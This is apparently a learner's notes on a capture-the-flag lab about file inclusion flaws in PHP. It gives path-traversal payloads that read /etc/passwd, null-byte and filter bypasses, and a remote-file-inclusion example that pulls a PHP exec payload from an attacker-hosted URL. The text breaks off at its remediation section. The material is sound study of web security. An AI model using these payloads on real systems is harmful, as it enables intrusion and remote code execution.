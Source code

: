 The error message discloses significant information:
- the include function looks like:  `include(languages/THM.php);`. If you look at the directory closely, we can tell the function includes files in the languages directory is adding  `.php` at the end of the entry. To bypass this scenario, we can use the NULL BYTE, which is `%00`.
- the full web application directory path which is `/var/www/html/THM-4/`. To exploit this, we need to use the `../` trick, to get out the current folder. 

in the following scenarios, the developer starts to use input validation by filtering some keywords. When we try `http://webapp.thm/index.php?lang=../../../../etc/passwd%00` , we got the following error: 
```php
Warning: include(languages/etc/passwd): failed to open stream: No such file or directory in /var/www/html/THM-5/index.php on line 15
```
If we check the warning message in the `include(languages/etc/passwd)` section, we know that the web application replaces the `../` with the empty string. There are a couple of techniques we can use to bypass this.

First, we can send the following payload to bypass it: `....//....//....//....//....//etc/passwd`
![[Pasted image 20240602043555.png]]

## ==Remote File Inclusion - RFI==

Remote File Inclusion (RFI) is a technique to include remote files and into a vulnerable application. Like LFI, the RFI occurs when improperly sanitizing user input, allowing an attacker to inject an external URL into include function. 

The risk of RFI is higher than LFI since RFI vulnerabilities allow an attacker to gain Remote Command Execution (RCE) on the server. Other consequences of a successful RFI attack include:
- Sensitive Information Disclosure
- Cross-site Scripting (XSS)
- Denial of Service (DoS)

 Let's say that the attacker hosts a PHP file on their own server `http://attacker.thm/cmd.txt where cmd.txt` contains an execution (reverse shell).
```php
<?PHP print exec('hostname'); ?>
```

First, the attacker injects the malicious URL, which points to the attacker's server, such as `http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt.` If there is no input validation, then the malicious URL passes into the include function. Next, the web app server will send a `GET` request to the malicious server to fetch the file. As a result, the web app includes the remote file into include function to execute the PHP file within the page and send the execution content to the attacker.
![[Pasted image 20240602044852.png]]
```
http://10.10.178.13/playground.php?file=http://10.10.190.121:8000/cmd.txt
```
## Remediation

As a developer, it's important to be aware of web application vulnerabilities, how to find them, and prevention methods. To prevent the file inclusion vulnerabilities, some common suggestions include:
